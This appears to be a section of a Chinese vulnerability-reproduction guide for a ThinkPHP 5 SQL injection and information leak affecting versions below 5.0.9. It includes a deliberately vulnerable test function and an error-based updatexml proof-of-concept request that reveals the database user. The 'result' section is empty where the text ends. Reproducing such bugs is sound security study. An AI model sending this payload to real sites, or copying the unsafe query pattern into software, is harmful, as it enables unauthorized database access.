 
### 二、5.x

>使用方法
>
>```bash
>cd /var/www/tp5
>```
>

#### ThinkPHP5_SQL注入漏洞&&敏感信息泄露

| 标题     | ThinkPHP5 SQL注入漏洞 && 敏感信息泄露                        |
| -------- | ------------------------------------------------------------ |
| 时间     | 2017-07-03                                                   |
| 版本     | < 5.0.9                                                      |
| 文章链接 | https://xz.aliyun.com/t/125  <br /><https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html> |

>测试方法
>
>```bash
>git checkout 02f8e8a
>```
>
>测试代码
>
>```php
>public  function testsql()
>{
>   $ids = input('ids/a');
>   $result = db('user')->where('id', 'in', $ids)->select();
>   var_dump($result);
>}
>```
>
>POC
>
>```php
>testsql?ids[0,updatexml(0,concat(0xa,user()),0)]=1231
>```
>
>结果
>
